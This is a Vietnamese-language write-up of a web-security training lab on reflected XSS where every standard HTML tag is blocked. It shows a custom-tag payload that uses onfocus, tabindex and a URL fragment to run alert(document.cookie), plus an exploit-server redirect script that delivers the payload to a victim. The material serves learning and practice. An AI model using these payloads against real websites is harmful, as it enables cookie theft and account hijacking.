



# Lab: Reflected XSS into HTML context with all tags blocked except custom ones

## Mô tả lab

Bài lab này thuộc nhóm lỗi Reflected XSS. Lỗ hổng nằm trong chức năng tìm kiếm của website. Tất cả các HTML tag chuẩn đều bị chặn, chỉ các custom tag không tồn tại trong HTML mới được phép đi qua. Mục tiêu của bài lab là khai thác XSS bằng custom tag và tự động gọi:

```javascript
alert(document.cookie)
```

## Các bước thực hiện

Các bước ban đầu gần như giống với lab sau:

- **Reflected XSS into HTML context with most tags and attributes blocked**

## Payload

Thuộc tính `tabindex` khiến element có thể nhận focus.

Payload lúc này có dạng:

```html
<foobar onfocus=alert(1) id="x" tabindex="1">
```



## Tự động kích hoạt onfocus bằng URL fragment

Nếu URL có fragment trỏ tới một element tồn tại trong trang, trình duyệt có thể tự động focus hoặc di chuyển tới element đó.

Ví dụ:

```text
#x
```

sẽ trỏ tới element có:

```html
id=x
```

Vì vậy ta có thể tạo URL chứa payload trong tham số `search`, đồng thời thêm fragment `#x` ở cuối URL để kích hoạt focus vào custom tag.

URL dạng chưa encode:

```text
https://YOUR-LAB-ID.web-security-academy.net/?search=<foobar onfocus=alert(document.cookie) tabindex=1 id=foo>#foo
```

## Tạo exploit trên exploit server

Vì payload chứa các ký tự đặc biệt như `<`, `>`, khoảng trắng và dấu ngoặc, cần URL encode payload trước khi đưa vào exploit page.

Trên exploit server, dùng đoạn HTML sau:

```html
<script>
document.location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cfoobar%20onfocus%3Dalert%28document.cookie%29%20id%3Dx%20tabindex%3D1%3E#x';
</script>
```



## Gửi exploit

Bấm `Store` và `Deliver exploit to victim`.



Lab solved.
